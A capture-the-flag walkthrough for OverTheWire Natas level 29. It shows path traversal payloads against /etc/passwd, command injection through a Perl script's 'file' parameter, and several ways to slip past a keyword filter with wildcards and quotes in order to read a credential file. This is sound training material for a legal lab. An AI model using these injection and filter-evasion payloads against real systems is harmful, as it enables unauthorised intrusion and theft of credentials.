# 🕸️Natas Level 29 → Level 30

```
http://natas29.natas.labs.overthewire.org
```
Username: natas29  
Password: (natas29_password)



We saw a dropdown menu, so we decided to take a look at it.



The five dropdown menus are almost identical, except for minor variations and a large amount of Perl code.



Next, we tried some low-hanging-fruit attacks, such as LFI and path traversal.
```
/etc/passwd
../../../../../../etc/passwd
....//....//....//....//....//....//etc/passwd
```



With no success there, we began looking into the possibility of command injection.



### Useful Command Injection 


### Special Character Wordlist
```
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/special-chars.txt
```

After that, we used CAIDO to look for command-injection vulnerabilities.



Our testing made use of the special‑character wordlist provided by SecLists.



We discovered that the special characters ``|``, ``;``, and ``&`` worked for command injection.



After that, we attempted to access the password for natas30.



The attempt failed, resulting in the message “meeeeeep!”.


Afterward, we checked the index.pl file and found code that filters out the word “natas.”
```
http://natas29.natas.labs.overthewire.org/index.pl?file=|cat+index.pl%3B
```


Then we tried bypassing it with a wildcard, and it worked.
```
http://natas29.natas.labs.overthewire.org/index.pl?file=|cat+/etc/*_webpass/*30%3B
```


Different approach to bypass the filter
```
|cat+/etc/*_webpass/*30%26
|cat+/etc/n?t?s_webpass/n???s30%26
|cat%20/etc/"na"tas_webpass/n"ata"s30%26
```

Great! That’s the flag required to log in to the next level.
